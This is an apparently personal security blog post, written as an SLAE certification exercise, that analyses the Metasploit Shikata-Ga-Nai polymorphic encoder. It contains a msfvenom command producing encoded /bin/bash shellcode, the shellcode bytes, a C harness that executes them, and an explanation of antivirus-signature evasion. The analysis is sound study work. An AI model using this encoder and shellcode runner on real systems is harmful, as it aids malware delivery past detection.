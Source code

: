 ```yaml
---
layout: post
title: Shikata-Ga-Nai encoder
categories: [re,exploit]
tags: [slae, osce]
fullview: false
comments: true
---
```


![it cannot be helped...](https://ih0.redbubble.net/image.464182666.3336/flat,550x550,075,f.u2.jpg)

While I was doing my SLAE certification I bumped into the infamous Shikata-Ga-Nai during an [assignment](). The objective in that task was to analyse a msfvenom shellcode (3 actually), so I picked this one:

```
# msfvenom -a x86 --platform linux -p linux/x86/exec CMD="/bin/bash" -b '\x00' -f c
Found 10 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 72 (iteration=0)
x86/shikata_ga_nai chosen with final size 72
Payload size: 72 bytes
Final size of c file: 327 bytes

"\xda\xdb\xd9\x74\x24\xf4\x5a\xbe\x05\x26\x9f\xe4\x2b\xc9\xb1"
"\x0c\x31\x72\x18\x83\xea\xfc\x03\x72\x11\xc4\x6a\x8e\x12\x50"
"\x0c\x1d\x42\x08\x03\xc1\x03\x2f\x33\x2a\x60\xd8\xc4\x5c\xa9"
"\x7a\xac\xf2\x3c\x99\x7c\xe3\x34\x5e\x81\xf3\x67\x3c\xe8\x9d"
"\x58\xa2\x8b\x12\xce\x22\x1b\x86\x87\xc2\x6e\xa8";
```

We can copy this output into `shellcode.hex` and use the following one-liner to generate the CFG image:

    $ cat shellcode.hex | tr -d '\\\x' | xxd -r -p | sctest -vvv -Ss 99999 -G shellcode.dot; dot -Tpng -o shellcode.png shellcode.dot

The output is:

![shikata_assignment]({{ "/assets/media/exec_no_null.png" | absolute_url }})

For this post I decided to generate a new shellcode using the very same command.

```
# msfvenom -a x86 --platform linux -p linux/x86/exec CMD="/bin/bash" -b '\x00' -f c
Found 10 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 72 (iteration=0)
x86/shikata_ga_nai chosen with final size 72
Payload size: 72 bytes
Final size of c file: 327 bytes

"\xda\xdb\xd9\x74\x24\xf4\x5a\xbe\x05\x26\x9f\xe4\x2b\xc9\xb1"
"\x0c\x31\x72\x18\x83\xea\xfc\x03\x72\x11\xc4\x6a\x8e\x12\x50"
"\x0c\x1d\x42\x08\x03\xc1\x03\x2f\x33\x2a\x60\xd8\xc4\x5c\xa9"
"\x7a\xac\xf2\x3c\x99\x7c\xe3\x34\x5e\x81\xf3\x67\x3c\xe8\x9d"
"\x58\xa2\x8b\x12\xce\x22\x1b\x86\x87\xc2\x6e\xa8";
```

Generating the CFG image once again and we get:

![shikata CFG]({{ "/assets/media/shikata_cfg.png" | absolute_url }})

You can spot some differences, which I will explore in the rest of this post.

I also wanted to be able to debug this shellcode, so I generated an executable using the shellcode tester skelleton:

```
#include <stdio.h>

unsigned char buf[] = 
"\xda\xdb\xd9\x74\x24\xf4\x5a\xbe\x05\x26\x9f\xe4\x2b\xc9\xb1"
"\x0c\x31\x72\x18\x83\xea\xfc\x03\x72\x11\xc4\x6a\x8e\x12\x50"
"\x0c\x1d\x42\x08\x03\xc1\x03\x2f\x33\x2a\x60\xd8\xc4\x5c\xa9"
"\x7a\xac\xf2\x3c\x99\x7c\xe3\x34\x5e\x81\xf3\x67\x3c\xe8\x9d"
"\x58\xa2\x8b\x12\xce\x22\x1b\x86\x87\xc2\x6e\xa8";
 
 int main(){
     int (*ret)();
     ret = (int(*)())buf;
     ret();
 
     return 0;
 }
```

Compiling it with:

	$ gcc -m32 -z execstack -fno-stack-protector test.c -o test


## Shikata-Ga-Nai

One of the best sources I have found about this encoder is [this paper](http://mason.gmu.edu/~rfarley3/2014-ISC-CodeXt.pdf)

```
Shikata-Ga-Nai  is  a  polymorphic  xor  additive  feedback  encoder within the Metasploit Framework. This encoder offers three features that provide  advanced  protection  when  combined.  First,  the  decoder  stub  generator uses metamorphic techniques, through code reordering and substitution, to produce  different  output  each  time  it  is  used,  in  an  effort  to  avoid  signature recognition. Second, it uses a chained self modifying key through additive feedback. This means that if the decoding input or keys are incorrect at any iteration then all subsequent output will be incorrect. Third, the decoder stub is itself partially obfuscated via self-modifying of the current basic block as well as armored against emulation using FPU instructions.
```

The core algorithm is:

1. Define a key
2. Get EIP using FPU instructions
3. Enter a loop with predefined counter
4. For each interation:
    * Change a future instruction (EIP+0xf) by XORing it with the key
    * Change the key by adding it with the result of the modified instruction

Lets analyse the instructions of the decoder line by line. You can also use the CFG image above to make things clearer:

```
00002040 <buf>:
    2040:	da db                	fcmovu st,st(3)
    2042:	d9 74 24 f4          	fnstenv [esp-0xc]
    2046:	5a                   	pop    edx
    2047:	be 05 26 9f e4       	mov    esi,0xe49f2605
    204c:	2b c9                	sub    ecx,ecx
    204e:	b1 0c                	mov    cl,0xc
    2050:	31 72 18             	xor    DWORD PTR [edx+0x18],esi
    2053:	83 ea fc             	sub    edx,0xfffffffc
    2056:	03 72 11             	add    esi,DWORD PTR [edx+0x11]
    2059:	c4 6a 8e             	les    ebp,FWORD PTR [edx-0x72]
    205c:	12 50 0c             	adc    dl,BYTE PTR [eax+0xc]
    205f:	1d 42 08 03 c1       	sbb    eax,0xc1030842
    2064:	03 2f                	add    ebp,DWORD PTR [edi]
    2066:	33 2a                	xor    ebp,DWORD PTR [edx]
    2068:	60                   	pusha  
    2069:	d8 c4                	fadd   st,st(4)
    206b:	5c                   	pop    esp
    206c:	a9 7a ac f2 3c       	test   eax,0x3cf2ac7a
    2071:	99                   	cdq    
    2072:	7c e3                	jl     2057 <buf+0x17>
    2074:	34 5e                	xor    al,0x5e
    2076:	81 f3 67 3c e8 9d    	xor    ebx,0x9de83c67
    207c:	58                   	pop    eax
    207d:	a2 8b 12 ce 22       	mov    ds:0x22ce128b,al
    2082:	1b 86 87 c2 6e a8    	sbb    eax,DWORD PTR [esi-0x57913d79]
```

The first block:

```
fcmovu st,st(3)
fnstenv [esp-0xc]
pop    edx
```

Is an elegant way to grap EIP using FPU instructions. There are other ways to get EIP, as you can see [here](https://danielebellavista.blogspot.com/2014/10/ia32-shellcodes-get-eip-value.html). As stated in the IA32 reference, the instruction FNSTENV:

```
Saves the current FPU operating environment at the memory location specified with the destination operand, and then masks all floating-point exceptions. The FPU operating environment consists of the FPU control word, status word, tag word, instruction pointer, data pointer, and last opcode.
```

So `fnstenv` saves, among other things, the address of the previous FPU instruction. Finally, this address is popped into `edx`, which from now stores EIP. Indeed, you can confirm it with a debugger:

![FPU get EIP]({{ "/assets/media/fpu_eip.png" | absolute_url }})

The following instruction:

    mov    esi,0xe49f2605

Saves the key into `esi`. Next we have:

```
sub    ecx,ecx
mov    cl,0xc
```

Which clears `ecx` out and stores 0xc in it. This will be the loop counter.

Now we enter the loop, which consists of 3 main instructions:

```
xor    DWORD PTR [edx+0x18],esi
sub    edx,0xfffffffc
add    esi,DWORD PTR [edx+0x11]
```

The first line of this block XORs `[edx+0x18]` with `esi`, the key. If we check in the debugger we see that [edx+0x18] corresponds to <buf+24>, the first instruction after the decoder.

![Shikata XOR]({{ "/assets/media/shikata_xor.png" | absolute_url }})

So we are effectively decoding the shellcode here.

The third line finishes the magic by changing the key. The intersting thing about shikata-ga-nai is that each instruction of our shellcode is encoded with a **different** key.

Once the loop is finished, all the work is done and the shellcode is decoded!

![Decoded instructions]({{ "/assets/media/shikata_decoded.png" | absolute_url }})

## Polymorphic and metamorphich code
One of the simplest ways for an AV to detect a shellcode (or any kind of malware indeed) is to check for patterns, aka signatures. It might take the hash of a certain suspicious file and compare it to a hash database of known malicious files. Self-modifying code came as a way to bypass those simple inspections, polymorphism and metamorphism being two variants of this technique.

According to [this](http://nnt.es/Hunting%20for%20Metamorphic%20Engines.pdf) paper:

    To overcome the problem of encryption, namely, the fact that the decryptor code is detectable, virus writers have implemented techniques to create mutated decryptors. Polymorphic viruses can change their decryptor code in each generation. They can generate a large number of distinct decryptors which can even use different encryption method to encrypt the virus body.

And also:

    Software is said to be metamorphic provided that copies of the software are all functionally equivalent, but their internal structure differs.

The difference between them is that while polymorphic code changes the code but keeps the same result, metamorphic code changes itself, resulting in a slightly different version of itself. For instance, a malware that encrypts itself might be a polymorphic one, since changing the key results in different encoded instructions, but when decrypting the results goes back to the same set of instructions. A metamorphic malware would be a more sophisticated one, comprising also auto-mutation features, besides polymorphism, resulting in a different set of instructions after decoding.

As we have seen before, Shikata-Ga-Nai is a polymorphic encoder. Indeed, changing the key results in different versions of encrypted code, which produce the same code after decoding.

Some features of this encoder besides the XOR additive feedback:

* Permuting use registers (key was stored in esi in this example, but in edi in the example used for the assignment)
* Instruction reordering (XORing was done before changing the key this time, but not in the example used for the assignment)
